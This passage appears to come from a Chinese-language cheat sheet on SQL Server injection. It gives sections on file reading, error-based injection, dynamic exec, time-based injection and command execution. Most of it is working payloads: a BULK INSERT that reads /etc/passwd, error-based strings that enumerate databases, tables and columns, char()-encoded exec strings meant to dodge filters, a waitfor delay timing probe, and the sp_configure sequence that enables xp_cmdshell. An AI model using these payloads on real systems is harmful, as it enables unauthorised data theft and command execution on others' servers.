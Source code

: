 ### ② 读文件

读文件 与其他稍微有所不同，需要较高权限
```sql
1> create table readfile( context ntext)
2> BULK INSERT readfile FROM '/etc/passwd' WITH ( DATAFILETYPE = 'char', KEEPNULLS)
```

[![UobvBn.png](https://s1.ax1x.com/2020/07/21/UobvBn.png)](https://imgchr.com/i/UobvBn)

### ③ 报错注入

产生强制类型转化就行

暴库
```sql
and db_name()>0;--
```

爆表
```sql
and 1=(select top 1 name from sysobjects where xtype='u' ) --
```
爆列
```sql
 group by test.name having 1=1--
```
![UoXlgU.png](https://s1.ax1x.com/2020/07/21/UoXlgU.png)

### ④ declare 语句


```sql
declare @a nvarchar(200) set @a= 'select 1' exec(@a)
```


```sql
declare @a nvarchar(200) set @a=char(115)+char(101)+char(108)+char(101)+char(99)+char(116)+char(32)+char(49) exec(@a)
```

![UoOCy4.png](https://s1.ax1x.com/2020/07/21/UoOCy4.png)


### ⑤ 延时注入

```sql
select 1; waitfor delay '0:0:5';
```
### ⑥  命令执行
win 下
开启xp_cmdshell

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure'xp_cmdshell', 1;
RECONFIGURE;
```
